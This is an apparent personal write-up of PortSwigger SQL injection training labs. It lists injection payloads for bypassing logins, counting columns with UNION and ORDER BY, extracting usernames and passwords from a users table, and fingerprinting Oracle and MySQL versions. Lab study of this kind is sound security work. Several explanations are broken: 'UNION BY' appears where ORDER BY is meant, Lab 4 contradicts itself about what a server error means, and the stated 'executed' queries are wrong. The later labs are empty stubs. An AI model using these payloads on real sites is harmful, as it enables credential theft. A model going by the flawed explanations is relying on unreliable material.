 <div align="center">
  <h1>-------------------------------LABS---------------------------------</h1>
</div>

[CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 1: `Retrieving hidden data`, where you can modify a SQL query to return additional results.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

## Lab 2: SQL injection vulnerability allowing `login bypass`
- Original Query: `SELECT firstname FROM users WHERE username='admin' AND password='admin'`
- Modified: `SELECT firstname FROM users WHERE username='admin'--' AND password='admin'`
- Query to executed by DB after injections: `SELECT firstname FROM users;`

### Injections:
- `'admin'--'` - Commenting out the remaining portion of the original query.

## Lab 3: SQL injection UNION attack, determining the number of columns returned by the query
1. ' ORDER BY 1-- injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION BY 4--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`

2. Submitting a series of `UNION SELECT` payloads specifying a different number of null values, will help in determining the columns unless we get the error.

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL,NULL,NULL--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`


## Lab 4: SQL injection UNION attack, finding a column containing text
- First, Determine the number of columns returned by the query.
- Second, Determine a column that is compatible with string data. 

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+BY+4--` (Server Error, means number of columns = 3)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+'a',NULL,NULL--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,NULL,'a'--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,'a',NULL--` ('a' determine that the 2nd column accepting text value)

## Lab 5: SQL injection UNION attack, `retrieving data from other tables` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'UNION+SELECT+username,password+FROM+users--` This should return all the users available in USERS table. (Since, table and columns name were given in Lab description. We can take it from there)
- Login > Enter the Administrator Cred > Done
- ![image](https://github.com/user-attachments/assets/003e7533-e7c9-401d-824d-fe7c7a34fe98)


## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
'Union+select+Null,NULL-- To determine the No. of columns
'Union+select+Null,'XYZ'-- To determine which column allows TEXT values
'Union+select+Null,username+from+users-- To retrieve Single TEXT value
'Union+select+Null,password+from+users-- To retrieve Single TEXT value
'Union+select+Null,username||password+from+users-- To retrieve Multiple TEXT value
'Union+select+Null,username||'~'||password+from+users-- To retrieve Multiple TEXT value with separator
```
- Login with Admin Creds to Solve the LAb
- ![image](https://github.com/user-attachments/assets/d73f2473-adfa-4ba2-beac-dfc914e9e354)

## Lab 7: SQL injection attack, querying the database type and version on Oracle `Union Query` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- On Oracle databases, every SELECT statement must specify a table to select FROM.
- If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
- There is a `built-in table on Oracle called 'dual'` For example: `UNION SELECT 'abc' FROM dual`

1. For Oracle:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT 'abc','def' FROM dual--`
- Query to executed by DB after injections: `SELECT * FROM products WHERE category = 'Gifts'' UNION SELECT 'abc','def' FROM dual--`
- To get the Oracle Version: `SELECT * FROM products WHERE category = 'Gifts'union+SELECT+banner,NULL+FROM+v$version--`

- Injections: `'union+SELECT+banner,NULL+FROM+v$version--` - Concate the second query with Union clause in Original Query.

2. For MYSQL:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
- 'UNION+SELECT+NULL,NULL#        Determine the Number of Columns, By comments it's MYSQL DB
- 'UNION+SELECT+@@version,'abc'#  Refer cheatsheet for cmd
- 'UNION+SELECT+@@version,+NULL#
```

## Lab 9: [Link]()





## Lab 10: [Link]()

## Lab 11: [Link]()

